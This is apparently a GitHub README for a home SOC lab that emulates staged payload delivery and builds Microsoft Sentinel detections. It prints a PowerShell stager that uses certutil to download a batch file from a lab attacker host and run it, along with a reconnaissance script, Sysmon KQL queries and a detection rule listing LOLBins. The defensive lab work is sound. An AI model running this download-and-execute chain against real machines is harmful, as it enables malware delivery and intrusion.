





# 🔥 LOLBins Abuse Detection — Staged Payload Delivery Simulation

> Simulating realistic staged payload delivery and LOLBins abuse using PowerShell, certutil.exe, Sysmon, AMA, and Microsoft Sentinel.

---

# 🎯 Objective

This project demonstrates a realistic multi-stage payload delivery attack using:

- Linux Attacker VM
- Windows Victim VM
- PowerShell payload staging
- LOLBins abuse via certutil.exe
- Sysmon endpoint telemetry
- Azure Monitor Agent (AMA)
- Microsoft Sentinel detection engineering

The objective was to simulate how attackers abuse trusted Windows binaries (LOLBins) for payload retrieval and execution while generating enterprise-grade telemetry for detection engineering.

---

# 🏗️ Lab Architecture

```text
Linux Attacker VM
        ↓
Python HTTP Server
        ↓
Victim Executes Stage-1 Payload
        ↓
certutil.exe Downloads Secondary Payload
        ↓
update.bat Executes
        ↓
Reconnaissance Activity Generated
        ↓
Sysmon Telemetry
        ↓
Microsoft Sentinel Detection
        ↓
Incident Creation
```

---

# 🛠️ Technologies Used

| Technology | Purpose |
|---|---|
| Microsoft Sentinel | SIEM & Incident Detection |
| Sysmon | Endpoint Telemetry |
| Azure Monitor Agent | Log Ingestion |
| PowerShell | Payload Execution |
| certutil.exe | LOLBins Abuse |
| Python HTTP Server | Payload Hosting |
| KQL | Detection Engineering |

---

# ⚔️ Attack Story

This simulation demonstrates a realistic staged malware delivery workflow.

The victim user was socially engineered into executing a malicious PowerShell payload already present on the system.

The payload then:
- abused certutil.exe
- contacted attacker-controlled infrastructure
- downloaded a secondary payload
- executed reconnaissance commands
- generated suspicious process and network telemetry

---

# 🧠 MITRE ATT&CK Mapping

| Technique | ID |
|---|---|
| User Execution | T1204 |
| PowerShell | T1059.001 |
| Signed Binary Proxy Execution | T1218 |
| Certutil | T1218.010 |
| Ingress Tool Transfer | T1105 |
| Command and Scripting Interpreter | T1059 |

---

# 🪟 Step 1 — Social Engineering Simulation

A fake urgent security update instruction was presented to the victim user.

The user was tricked into executing a PowerShell payload under the assumption that it was a legitimate browser security update.

## Screenshot



---

# 🪟 Step 2 — Stage-1 Payload On Victim Machine

The victim machine already contained the Stage-1 PowerShell payload:

```text
stage1.ps1
```

This simulated:
- phishing attachment delivery
- fake software update payload
- malicious user execution
  

## 📜 Stage-1 PowerShell Payload

The Stage-1 PowerShell payload was responsible for:
- creating suspicious directories
- abusing certutil.exe
- downloading secondary payloads
- triggering staged execution

### stage1.ps1

```powershell
New-Item -Path "C:\Temp\SuspiciousActivity" -ItemType Directory -Force

Start-Process certutil.exe -ArgumentList '-urlcache -split -f http://10.0.0.5:8080/update.bat C:\Temp\SuspiciousActivity\update.bat'

Start-Sleep 5

Start-Process "C:\Temp\SuspiciousActivity\update.bat"
```



This payload simulated:
- LOLBins abuse
- staged malware delivery
- attacker infrastructure communication
- suspicious PowerShell execution

---

# 🪟 Step 3 — Payload Execution

The victim executed the Stage-1 PowerShell payload:

```powershell
powershell.exe -ExecutionPolicy Bypass -File "C:\Users\Pavan\Desktop\stage1.ps1"
```

The payload:
- created suspicious directories
- abused certutil.exe
- downloaded a secondary payload
- launched the downloaded payload

## Screenshot


---

# 🐧 Step 4 — Attacker Infrastructure

The Linux attacker VM hosted the secondary payload using a Python HTTP server.

## Command Used

```bash
python3 -m http.server 8080
```

The attacker infrastructure hosted:

```text
update.bat
```

## Screenshot





---

# 🔥 Step 5 — LOLBins Abuse via certutil.exe

The Stage-1 PowerShell payload abused:

```text
certutil.exe
```

to download the secondary payload from attacker-controlled infrastructure.

## Command Used

```powershell
certutil.exe -urlcache -split -f http://10.0.0.5:8080/update.bat C:\Temp\SuspiciousActivity\update.bat
```

This generated:
- suspicious process execution
- outbound network telemetry
- LOLBins activity

---

# 📦 Step 6 — Secondary Payload Delivery

The downloaded payload was successfully stored on the victim machine:

```text
C:\Temp\SuspiciousActivity\update.bat
```

This simulated:
- staged malware delivery
- attacker payload retrieval
- post-exploitation preparation

## Screenshot


## 📦 Secondary Payload Content

The downloaded secondary payload simulated post-exploitation reconnaissance activity.

### update.bat

```bat
@echo off

mkdir C:\Temp\Compromised

echo Suspicious activity detected > C:\Temp\Compromised\note.txt

whoami > C:\Temp\Compromised\whoami.txt

ipconfig > C:\Temp\Compromised\network.txt

tasklist > C:\Temp\Compromised\processes.txt
```

This payload simulated:
- host reconnaissance
- process enumeration
- network enumeration
- suspicious artifact creation

---

# 🧬 Step 7 — Post-Exploitation Activity

The secondary payload executed reconnaissance-style commands including:

- whoami
- ipconfig
- tasklist

Generated artifacts:

```text
C:\Temp\Compromised
```

Files Created:
- note.txt
- whoami.txt
- network.txt
- processes.txt

## Screenshot


---

# 🔎 Step 8 — Unified Sysmon Telemetry Validation

Sysmon successfully captured both:
- suspicious process creation activity
- outbound network connections

using:
- Event ID 1 (Process Creation)
- Event ID 3 (Network Connection)

Observed suspicious activity included:

- powershell.exe execution
- certutil.exe abuse
- outbound connection to attacker infrastructure
- payload retrieval behavior
- suspicious command-line arguments

## Unified Validation Query

```kusto
Event
| where EventLog == "Microsoft-Windows-Sysmon/Operational"
| where EventID in (1,3)
| extend Image = extract(@"Image:\s+([^\r\n]+)", 1, RenderedDescription)
| extend ParentImage = extract(@"ParentImage:\s+([^\r\n]+)", 1, RenderedDescription)
| extend CommandLine = extract(@"CommandLine:\s+([^\r\n]+)", 1, RenderedDescription)
| extend DestinationIp = extract(@"DestinationIp:\s+([^\r\n]+)", 1, RenderedDescription)
| extend DestinationPort = extract(@"DestinationPort:\s+([^\r\n]+)", 1, RenderedDescription)
| where Image has_any ("powershell.exe","certutil.exe","cmd.exe")
| project TimeGenerated, Computer, EventID, Image, ParentImage, CommandLine, DestinationIp, DestinationPort
| sort by TimeGenerated desc
```

This query helped validate:
- LOLBins abuse
- process execution chains
- suspicious PowerShell activity
- outbound payload retrieval
- attacker infrastructure communication

## Screenshots


---

# 🚨 Step 10 — Microsoft Sentinel Detection Rule

A behavioral analytics rule was created in Microsoft Sentinel to detect suspicious LOLBins abuse and scripted payload execution activity.

## Rule Name

```text
Suspicious LOLBins Activity Detected
```

## Detection Query

```kusto
let suspiciousProcesses = dynamic([
    "powershell.exe",
    "certutil.exe",
    "cmd.exe",
    "wscript.exe",
    "cscript.exe",
    "mshta.exe"
]);

Event
| where EventLog == "Microsoft-Windows-Sysmon/Operational"
| where EventID in (1,3)
| extend Image = extract(@"Image:\s+([^\r\n]+)", 1, RenderedDescription)
| extend ParentImage = extract(@"ParentImage:\s+([^\r\n]+)", 1, RenderedDescription)
| extend CommandLine = extract(@"CommandLine:\s+([^\r\n]+)", 1, RenderedDescription)
| extend DestinationIp = extract(@"DestinationIp:\s+([^\r\n]+)", 1, RenderedDescription)
| extend DestinationPort = extract(@"DestinationPort:\s+([^\r\n]+)", 1, RenderedDescription)
| where Image has_any (suspiciousProcesses)
| where
    CommandLine has_any ("urlcache","http","ExecutionPolicy","Bypass")
    or DestinationPort == "8080"
| project
    TimeGenerated,
    Computer,
    EventID,
    Image,
    ParentImage,
    CommandLine,
    DestinationIp,
    DestinationPort
| sort by TimeGenerated desc
```

## Screenshot



---

# 🚨 Step 11 — Incident Generation

After re-triggering the attack simulation, Microsoft Sentinel successfully generated a security incident based on the custom analytics rule.

The incident correlated:
- PowerShell abuse
- LOLBins execution
- outbound payload retrieval
- suspicious process chains
- attacker infrastructure communication

## Screenshot


---

# 🧠 Detection Engineering Concepts Demonstrated

- LOLBins abuse detection
- certutil.exe monitoring
- staged payload delivery detection
- PowerShell telemetry analysis
- process chain hunting
- outbound network anomaly detection
- behavioral analytics engineering
- Sysmon telemetry engineering
- Sentinel incident generation
- MITRE ATT&CK mapping

---

# 🎯 Outcome

This project successfully simulated a realistic staged payload delivery attack leveraging LOLBins abuse and attacker-controlled infrastructure.

The simulation demonstrated how:
- trusted Windows binaries can be abused
- staged payload delivery works
- process and network telemetry can be correlated
- Microsoft Sentinel can detect suspicious behavioral patterns

---

# 🚀 Key Takeaway

This project significantly enhanced the SOC lab from:

```text
basic PowerShell simulations
```

to:

```text
realistic adversary emulation and detection engineering
```

using:
- staged malware delivery
- LOLBins abuse
- process telemetry
- network telemetry
- behavioral analytics
- enterprise-grade Sentinel detections
